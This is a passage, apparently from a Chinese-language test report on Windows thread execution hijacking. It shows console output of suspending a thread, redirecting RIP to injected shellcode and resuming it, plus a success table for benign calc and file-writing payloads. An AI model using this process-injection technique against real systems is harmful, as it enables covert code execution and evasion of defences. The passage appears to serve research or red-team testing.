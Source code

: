 ```bash
  [*] 原始 RIP: 0x7FFB40368D70

[*] 步骤 5: 修改指令指针...
  [+] 新 RIP: 0x1E6DBB20000

[*] 步骤 6: 设置新的线程上下文...
[+] 已设置新的线程上下文

[*] 步骤 7: 恢复线程执行...
[+] 线程已恢复，shellcode 正在执行...

[+] 线程劫持成功！
[*] Shellcode 已在目标进程中执行
```

**验证结果**:
```bash
$ cat /c/Users/Public/thread_hijacking_verified.txt

Thread Hijacking Verified!
Technique: Thread Execution Hijacking
Method: SetThreadContext + Modified RIP
Status: Executed by hijacked thread!
```

**结果**: ✅ **成功**

**关键细节**：
- Shellcode 大小：330 字节
- 远程内存地址：`0x000001E6DBB20000`
- 原始 RIP：`0x7FFB40368D70` (ntdll!LdrpInitializeProcess 附近)
- 修改后 RIP：`0x1E6DBB20000` (shellcode 地址)
- 执行时间：ResumeThread 后立即执行
- 文件创建确认：验证文件包含 Thread Hijacking 特定消息

---

## 测试结果总结

| 测试项 | Shellcode 大小 | 结果 | 执行时间 |
|--------|---------------|------|----------|
| Calc | 272 字节 | ✅ 成功 | 立即 |
| 文件验证 | 330 字节 | ✅ 成功 | 立即 |

**成功率**: 100%

---

## 技术细节分析

### 1. 为什么使用 CREATE_SUSPENDED？
